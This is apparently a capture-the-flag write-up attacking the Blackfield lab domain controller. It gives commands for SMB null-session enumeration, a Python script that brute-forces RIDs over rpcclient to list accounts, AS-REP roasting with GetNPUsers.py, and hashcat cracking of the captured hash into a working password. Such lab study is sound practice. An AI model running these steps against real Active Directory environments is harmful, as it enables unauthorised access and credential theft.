

| Target       |
| ------------ |
| 10.10.10.192 |

### 100.1 Fingerprinting

```sh
ping -c1 10.10.10.192
```


> TTL 127 Windows System 1 Hop Away

```sh
nxc smb 10.10.10.192
```


| IP Address   | NetBIOS | Domain           | OS                                  |
| ------------ | ------- | ---------------- | ----------------------------------- |
| 10.10.10.192 | DC01    | blackfield.local | Windows Server 2019 Build 17763 x64 |

---

#### 200.1 Resource Development

Setting up `dns`resolution.

- /etc/hosts
```sh
echo 10.10.10.192 dc01.blackfield.local blackfield.local dc01 | sudo tee -a /etc/hosts 
```

- /etc/resolv.conf
```sh
search blackfield.local
nameserver 10.10.10.192
nameserver 192.168.122.1 # my lab gateway
options timeout:10 # pgp and htb networks can be slow sometimes
```

```sh
sudo chattr +i /etc/resolv.conf
```

```sh
nslookup -type=any blackfield.local 
```


---

### 300.1 Service Enumeration

```sh
sudo nmap dc01.blackfield.local \
	-Pn --disable-arp-ping --reason -v \
	-sC -sV -p1-10000 --min-rate=100 \
	-oN scans/nmap.txt
```


It looks like the main attack surface will be the `rpc` `ldap` and `smb`protocols.

Also Our clock is about 8 hours off!

We'll need to go back to `resource development`to fix that!

---

### 200.2 Resource Development : Fixing Clock Skew 

> Will will try to fix our clock automatically if we don't adjust this.

```sh
sudo timedatectl set-ntp false
```

```sh
sudo timedatectl set-timezone GMT
```

Now let's adjust our clock it manually. 
```sh
sudo timedatectl set-time '2024-12-14 05:37'
```


*Now we should be able to authenticate using kerberos* 


---

### 400.1 Null Session Enumeration

```sh
nxc smb -u 'guest' -p '' --shares dc01
```


We may find sensitive info in the `/profiles$` 

We can enumerate users anonymously.

```sh
nxc smb -u 'guest' -p '' --rid-brute 1500 dc01
```


But How does it work ? 

Well `nxc`will  first extract the `domain sid`using a `lsaquery`.  Like this:

```sh
rpcclient -U 'guest'%'' dc01 -c 'lsaquery'
```


| Domain SID                                |
| ----------------------------------------- |
| S-1-5-21-4194615774-2175524697-3563712290 |

Then `nxc`will append a integer to the end.  For example the `RID`for the default administrator account is `500`. So the `Security Identifier`will look like this:

| Administrator SID                             |
| --------------------------------------------- |
| S-1-5-21-4194615774-2175524697-3563712290-500 |
By running a `lookupsids`on the administrator `SID` we can get the username. 
```sh
rpcclient -U 'guest'%'' dc01 -c 'lookupsids S-1-5-21-4194615774-2175524697-3563712290-500'
```


Now we just need to iterate through 501, 502, 503 etc to enumerate the domain accounts.

I wrote a simple wrapper for `rpcclient`that does that as an exercise.

[dumplsarpc.py](https://raw.githubusercontent.com/bluetoothStrawberry/dumplsarpc/refs/heads/main/dumplsaprc.py)
```python
#!/usr/bin/env python3
import subprocess
import shlex
import sys

target = 'dc01' # HTB's dc01.blackfield.local box

username = 'guest' # for anonymous access | random strings should work too
password = '' 
max_rid = 1500

def get_sid(target: str, username: str, password: str ) -> str:
    lsaquery = f'/usr/bin/rpcclient -U {username}%{password} -c "lsaquery" {target}'
    try:
        sid = subprocess.check_output(shlex.split(lsaquery)).decode().strip().split()[-1]
    except:
        pass
    if 'S-' not in sid:
        return None
    return sid


def get_objects(sid: str, max_rid: int, target: str, username: str, password: str) -> tuple:
    groups , machines , users = [], [], []
    sids = ' '.join([ f'{sid}-{str(rid)}' for rid in range(500, max_rid + 1)])
    lookupsids = f'/usr/bin/rpcclient -U {username}%{password} -c "lookupsids {sids}" {target}'
    try:
        res = subprocess.check_output(shlex.split(lookupsids)).decode()
    except:
        pass
    if 'administrator' not in res.lower():
        return [], [], []
    for line in res.split('\n'):
        if '(2)' in line or '(4)' in line:
            groups.append(' '.join(line.split(' ')[:-1][1:]))
        if '(1)' in line and '$' in line:
            machines.append(line.split(' ')[-2])
        if '(1)' in line and '$' not in line:
            users.append(line.split(' ')[-2])
    return groups, machines, users


if __name__ == '__main__':
    sid = get_sid(target, username, password)
    groups, machines, users = get_objects(sid, max_rid, target, username, password)

    for group in groups:
        print(f'Group: {group}')
    for machine in machines:
        print(f'Machine: {machine}')
    for user in users:
        print(f'User: {user}')
```

As you can see we get the same results because it's the same method!


| Interesting Accounts |
| -------------------- |
| audit2020            |
| support              |
| svc_backup           |
| lydericlefebvre      |

###### 400.2 `/profiles$`share

This looks really off. 

I've found a bunch of what looks like usernames. But we already know those are not valid account names! 

```sh
smbclient -U 'john'%'password123'  //dc01/profiles\$
```


For now I cannot make a lot of sense of this share!! 

---

###  500.1 ASP-REP Roasting

```sh
python3 GetNPUsers.py \
	-request \
	-outputfile asprep.hashcat \
	-format hashcat \
	-usersfile users.txt \
	blackfield.local/
```


I was not expecting to find anything juicy yet because the box is rated as hard. 
However it looks like we have one account that does not require `kerberos pre-authentication`! 

[asrep_roasting](https://blog.netwrix.com/2022/11/03/cracking_ad_password_with_as_rep_roasting/)


The `Authentication Server Response`  or `AS-REP` for shot contains a `TGT`that was encrypted with the users `ntlm`hash. 

So we could brute force to recover the user password! 

And it worked ! We have access to  our first account! 
```sh
hashcat -a0 -w3  -m18200 -ocracked.txt asprep.hashcat rockyou.txt
```


| account   | password        |
| --------- | --------------- |
| audit2020 | #00^BlackKnight |

---

#### 600.1 Shares

```sh
nxc smb -u 'audit2020' -p '#00^BlackKnight' --shares dc01
```
